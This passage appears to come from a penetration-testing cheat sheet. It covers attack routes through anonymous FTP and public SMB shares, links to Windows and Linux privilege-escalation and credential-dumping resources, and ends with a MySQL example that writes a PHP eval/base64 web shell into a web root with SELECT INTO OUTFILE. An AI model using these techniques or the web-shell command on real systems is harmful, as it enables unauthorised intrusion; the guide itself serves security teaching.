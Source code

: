 https://blog.cloudflare.com/inside-shellshock/

## Anonymous FTP
Anonymous FTP can lead to different attack avenues. If the system has an additional vulnerability in FTP that requires being authenticated, such as a directory traversal attack, then it makes it that much simpler. If the FTP server is configured to allow access to certain directories, for instance the web root, you can upload bind and reverse shells to the web server then execute them through the browser.

## SMB Shares
SMB Shares that are public can be great avenues for attack. If the share is the web root or part of it, you can upload bind and reverse shells to the system to call from your browser. Tools like enum4linux can identify these shares and smbclient can be used to connect to it directly.

---
# Privilege Escalation
Operating systems have many different vectors for privilege escalation. Some are simple, some are complex, it is worth taking the time to understand how each works so you know what to look for.

## Windows Escalation
* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)<br />
* [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)<br />
* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)<br />

## Linux Escalation
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)<br />
* [Rebootuser Linux Enumeration & Priv Esc](https://www.rebootuser.com/?p=1623)
* [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)<br />
* [LinEnum](https://github.com/rebootuser/LinEnum)

## Database Attacks
If you are able to gain access to a database, there are several ways you can use it to your advantage:

### MySQL Example<br />
If you can connect to a remote MySQL server and get command line access via:
```
root@kali:~# mysql -u root -p -h 192.168.1.100
```

You may be able to output a file to disk via the MySQL command line (you can put the base64 payload (from msfvenom, for example) into a select):
```
mysql> select "<?PHP eval(base64_decode(<base64-value-here>)); ?>" INTO OUTFILE "../../www/html/shell.php";
Query OK, 1 row affected (0.00 sec)
```
